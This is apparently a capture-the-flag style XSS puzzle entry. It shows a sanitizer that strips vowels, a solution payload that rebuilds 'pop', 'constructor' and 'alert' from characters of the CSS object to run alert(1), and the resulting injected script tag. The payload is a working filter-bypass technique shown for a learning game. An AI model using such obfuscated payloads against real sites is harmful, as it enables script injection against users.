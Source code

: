 
```
// submitted by Stephen Leppik
function escape(s) {
    // remove vowels in honor of K'Z'K the Destroyer
    s = s.replace(/[aeiouy]/gi, '');
    return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
"+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"
```

- Output

```
<script>console.log(""+[]['p'+[CSS+''][0][1]+'p']['c'+[CSS+''][0][1]+'nstr'+[CSS[0]+''][0][0]+'ct'+[CSS+''][0][1]+'r']([CSS*CSS+''][0][1]+'l'+[CSS[0]+''][0][3]+'rt(1)')()+"");</script>
```